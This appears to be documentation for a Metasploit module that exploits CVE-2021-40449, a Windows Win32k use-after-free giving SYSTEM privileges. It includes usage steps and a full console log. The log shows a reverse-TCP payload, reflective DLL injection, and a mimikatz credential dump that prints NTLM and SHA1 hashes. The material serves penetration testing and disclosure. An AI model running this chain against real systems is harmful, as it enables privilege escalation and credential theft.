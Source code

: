 ## Vulnerable Application

A use after free vulnerability exists in the `NtGdiResetDC()` function of Win32k which can be leveraged by
an attacker to escalate privileges to those of `NT AUTHORITY\SYSTEM`. The flaw exists due to the fact
that this function calls `hdcOpenDCW()`, which performs a user mode callback. During this callback, attackers
can call the `NtGdiResetDC()` function again with the same handle as before, which will result in the PDC object
that is referenced byt his handle being freed. The attacker can then replace the memory referenced by the handle
with their own object, before passing execution back to the original `NtGdiResetDC()` call, which will now use the
attacker's object without appropriate validation. This can then allow the attacker to manipulate the state of the
kernel and, together with additional exploitation techniques, gain code execution as NT AUTHORITY\SYSTEM.

This module has been tested to work on Windows 10 x64 RS1 (build 14393) and RS5 (build 17763), however
previous versions of Windows 10 will likely also work.

Note the exploit may occasionally not work the first time so you may have to run it again to get the results.

## Options

## Verification Steps

1. Get a non-SYSTEM meterpreter session on Win10 RS5 x64
2. `use exploit/windows/local/cve_2021_40449`
3. `set session <session>`
4. `exploit`
5. Get a SYSTEM session

## Scenarios

### Windows 10 1809 Build 17763.2114 x64

```
msf6 exploit(multi/handler) > exploit

[*] Started bind TCP handler against 172.28.156.210:4444
[*] Sending stage (200262 bytes) to 172.28.156.210
[*] Meterpreter session 1 opened (172.28.145.185:36167 -> 172.28.156.210:4444 ) at 2021-11-05 15:45:08 -0500

meterpreter > getuid
Server username: DESKTOP-3GHNQ93\normal
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: The system cannot find the file specified. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
meterpreter > sysinfo
Computer        : DESKTOP-3GHNQ93
OS              : Windows 10 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/cve_2021_40449
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2021_40449) > show options

Module options (exploit/windows/local/cve_2021_40449):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.28.145.185   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 10 x64 RS1 (build 14393) and RS5 (build 17763)


msf6 exploit(windows/local/cve_2021_40449) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/cve_2021_40449) > set LPORT 9988
LPORT => 9988
msf6 exploit(windows/local/cve_2021_40449) > exploit

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_sys_process_set_term_size
[*] Started reverse TCP handler on 172.28.145.185:9988
[*] Running automatic check ("set AutoCheck false" to disable)
^C[-] Exploit failed [user-interrupt]: Interrupt
[-] exploit: Interrupted
msf6 exploit(windows/local/cve_2021_40449) > exploit

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_sys_process_set_term_size
[*] Started reverse TCP handler on 172.28.145.185:9988
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Target's build number: 10.0.17763.2114
[+] The target appears to be vulnerable. Vulnerable Windows 10 v1809 build detected!
[*] Launching msiexec to host the DLL...
[+] Process 2520 launched.
[*] Reflectively injecting the DLL into 2520...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200262 bytes) to 172.28.156.210
[*] Meterpreter session 2 opened (172.28.145.185:9988 -> 172.28.156.210:49900 ) at 2021-11-05 15:46:21 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > load kiwi
Loading extension kiwi...c
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain           NTLM                              SHA1
--------  ------           ----                              ----
normal    DESKTOP-3GHNQ93  a38673ad58b19421e952fc317b62c3c4  ccff8cc980f0024dc5b3f925194a35c0fa0231c3
test      DESKTOP-3GHNQ93  0cb6948805f797bf2a82807973b89537  87f8ed9157125ffc4da9e06a7b8011ad80a53fe1

wdigest credentials
===================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
DESKTOP-3GHNQ93$  WORKGROUP        (null)
normal            DESKTOP-3GHNQ93  (null)
test              DESKTOP-3GHNQ93  (null)

kerberos credentials
====================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
desktop-3ghnq93$  WORKGROUP        (null)
normal            DESKTOP-3GHNQ93  (null)
test              DESKTOP-3GHNQ93  (null)


meterpreter >
```
